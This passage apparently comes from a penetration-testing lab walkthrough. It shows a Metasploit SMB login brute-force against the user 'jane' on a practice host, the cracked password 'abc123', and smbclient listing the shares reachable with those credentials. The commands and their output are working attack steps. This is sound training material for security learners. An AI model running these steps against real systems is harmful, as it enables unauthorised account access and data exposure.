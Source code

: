 #### 🔧 Command Explanation:
- **msfconsole -q** - Start Metasploit quietly (no banner)
- **use auxiliary/scanner/smb/smb_login** - Choose SMB password attack tool
- **set PASS_FILE** - Use list of common passwords
- **set SMBUser jane** - Try attacks against user "jane"
- **set RHOSTS demo.ine.local** - Set our target system
- **exploit** - Start the attack

#### 🎉 Success! What Happened:
```bash
[+] 192.26.1.3:445 - 192.26.1.3:445 - Success: '.\jane:abc123'
[*] demo.ine.local:445 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### 🔓 What We Found:
- **Username:** jane (we guessed correctly)
- **Password:** abc123 (found in our password list)
- **Success Message** - Login worked!
- **Domain:** .\ means local computer account

#### Why This Worked:
The user "jane" had a weak password "abc123" that was in our common password list.

---

### Step 3: Verify Access with SMB Client

**What We're Doing:** Testing our discovered credentials to see what files we can access

#### Commands Used:
```bash
smbclient -L demo.ine.local -U jane
# Enter password: abc123
```

#### What Happened:
```bash
Enter WORKGROUP\jane's password: abc123

        Sharename       Type      Comment
        ---------       ----      -------
        shawn           Disk      
        nancy           Disk      
        admin           Disk      
        IPC$            IPC       IPC Service (brute.samba.recon.lab)
```

#### 🎯 What This Shows Us:
- **4 Shares Available** - shawn, nancy, admin, IPC$
- **Disk Shares** - These contain files we might be able to access
- **IPC$ Share** - Used for system communication
- **Successful Authentication** - Our credentials work
